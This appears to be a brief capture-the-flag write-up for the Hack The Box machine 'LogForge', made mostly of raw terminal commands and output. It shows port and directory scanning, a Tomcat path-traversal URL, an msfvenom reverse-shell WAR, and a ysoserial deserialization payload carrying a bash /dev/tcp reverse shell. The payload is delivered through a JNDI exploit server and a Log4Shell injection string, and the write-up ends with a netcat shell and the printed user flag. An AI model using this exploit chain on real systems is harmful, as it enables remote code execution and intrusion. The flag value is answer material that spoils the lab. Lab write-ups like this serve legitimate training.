

# LogForge

└──╼ [★]$ sudo nmap -sCV 10.129.96.153
Starting Nmap 7.95 ( [https://nmap.org](https://nmap.org/) ) at 2026-06-24 22:32 EDT
Nmap scan report for 10.129.96.153
Host is up (0.0090s latency).
Not shown: 996 closed tcp ports (reset)
PORT     STATE    SERVICE    VERSION
21/tcp   filtered ftp
22/tcp   open     ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 ea:84:21:a3:22:4a:7d:f9:b5:25:51:79:83:a4:f5:f2 (RSA)
|   256 b8:39:9e:f4:88:be:aa:01:73:2d:10:fb:44:7f:84:61 (ECDSA)
|_  256 22:21:e9:f4:85:90:87:45:16:1f:73:36:41:ee:3b:32 (ED25519)
80/tcp   open     http       Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Ultimate Hacking Championship
|_http-server-header: Apache/2.4.41 (Ubuntu)
8080/tcp filtered http-proxy
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

whatweb -a 3 [http://10.129.96.153/http://10.129.96.153/](http://10.129.96.153/) [200 OK] Apache[2.4.41], Cookies[JSESSIONID], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], HttpOnly[JSESSIONID], IP[10.129.96.153], Java, Title[Ultimate Hacking Championship]

└──╼ [★]$ exiftool logo.png
ExifTool Version Number         : 13.25
File Name                       : logo.png
Directory                       : .
File Size                       : 22 kB
File Modification Date/Time     : 2026:06:25 09:12:28-04:00
File Access Date/Time           : 2026:06:25 09:12:28-04:00
File Inode Change Date/Time     : 2026:06:25 09:12:28-04:00
File Permissions                : -rw-rw-r--
File Type                       : PNG
File Type Extension             : png
MIME Type                       : image/png
Image Width                     : 1080
Image Height                    : 1080
Bit Depth                       : 8
Color Type                      : RGB with Alpha
Compression                     : Deflate/Inflate
Filter                          : Adaptive
Interlace                       : Noninterlaced
Software                        : Adobe ImageReady
Image Size                      : 1080x1080
Megapixels                      : 1.2

feroxbuster -u [http://10.129.96.153](http://10.129.96.153/) -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -x php,html,txt -d 3

---

|__  |__  |**) |**) | /  `    /  \ \*/ | |  \ |__
|    |*__ |  \ |  \ | \**,    \**/ / \ | |**/ |**_
by Ben "epi" Risher 🤓                 ver: 2.13.1
───────────────────────────┬──────────────────────
🎯  Target Url            │ [http://10.129.96.153/](http://10.129.96.153/)
🚩  In-Scope Url          │ 10.129.96.153
🚀  Threads               │ 50
📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
👌  Status Codes          │ All Status Codes!
💥  Timeout (secs)        │ 7
🦡  User-Agent            │ feroxbuster/2.13.1
💉  Config File           │ /etc/feroxbuster/ferox-config.toml
🔎  Extract Links         │ true
💲  Extensions            │ [php, html, txt]
🏁  HTTP methods          │ [GET]
🔃  Recursion Depth       │ 3
───────────────────────────┴──────────────────────
🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        1l       63w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
403      GET        9l       28w      278c [http://10.129.96.153/admin](http://10.129.96.153/admin)
302      GET        0l        0w        0c [http://10.129.96.153/images](http://10.129.96.153/images) => [http://10.129.96.153/images/](http://10.129.96.153/images/)
200      GET       55l      436w    37104c [http://10.129.96.153/images/logo.png](http://10.129.96.153/images/logo.png)
200      GET       32l       48w      489c [http://10.129.96.153/](http://10.129.96.153/)
403      GET        9l       28w      278c [http://10.129.96.153/manager](http://10.129.96.153/manager)
403      GET        9l       28w      278c [http://10.129.96.153/server-status](http://10.129.96.153/server-status)
[####################] - 72s   240008/240008  0s      found:6       errors:19549

[####################] - 71s   120000/120000  1681/s  [http://10.129.96.153/](http://10.129.96.153/)
[####################] - 71s   120000/120000  1683/s  [http://10.129.96.153/image](http://10.129.96.153/image)

[http://10.129.96.153/x/](http://10.129.96.153/x/)..;/manager/html

msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.15.206 LPORT=4444 -f war -o shell.war
Payload size: 1095 bytes
Final size of war file: 1095 bytes
Saved as: shell.war

Server says tomcat but nmap says httpd

It’s a reverse proxy

git clone [https://github.com/pimps/ysoserial-modified.git](https://github.com/pimps/ysoserial-modified.git)

git clone [https://github.com/jas502n/JNDI-Exploit-Kit.git](https://github.com/jas502n/JNDI-Exploit-Kit.git)

java --add-opens=java.base/java.lang=ALL-UNNAMED --add-opens=java.base/java.util=ALL-UNNAMED --add-opens=java.base/java.net=ALL-UNNAMED --add-opens=java.base/java.io=ALL-UNNAMED --add-opens=java.management/javax.management=ALL-UNNAMED --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED -jar ysoserial-modified.jar CommonsCollections6 bash 'bash -i >& /dev/tcp/10.10.15.206/4444 0>&1' > ~/cc5.ser

java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -L 10.10.15.206:1389 -P ~/cc5.ser

${jndi:ldap://10.10.15.206:1389/mpyz6d}

nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.129.96.153 45144
bash: cannot set terminal process group (846): Inappropriate ioctl for device
bash: no job control in this shell
tomcat@LogForge:/var/lib/tomcat9$ python3 -c 'import pty;pty.spawn("/bin/bash")'
<at9$ python3 -c 'import pty;pty.spawn("/bin/bash")'
tomcat@LogForge:/var/lib/tomcat9$ stty raw -echo
stty raw -echo
tomcat@LogForge:/var/lib/tomcat9$ id
uid=997(tomcat) gid=997(tomcat) groups=997(tomcat)
tomcat@LogForge:/var/lib/tomcat9$ hostname
LogForge

tomcat@LogForge:/home/htb$ cat user.txt
1f40e8e74e30db5a6da3e4e6bb690fc4